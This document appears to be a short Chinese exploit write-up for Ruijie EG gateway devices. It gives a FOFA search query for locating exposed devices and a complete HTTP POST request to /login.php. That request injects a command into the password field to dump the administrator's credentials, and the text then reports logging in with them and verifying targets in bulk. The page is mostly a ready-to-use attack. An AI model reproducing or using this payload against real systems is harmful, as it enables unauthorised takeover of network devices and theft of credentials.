




# 影响范围：
锐捷EG易网关
# FOFa dork：
app="Ruijie-EG易网关"
# 漏洞复现：
登录页面：

访问漏洞地址/login.php，使用burpsuite进行抓包，变更发包方式为POST，并添加POST数据，请求包如下：
```
POST /login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=admin&password=admin?show+webmaster+user
```
成功获取管理员账号密码：  

使用获得的账号密码成功登录：  

使用脚本进行批量验证：  



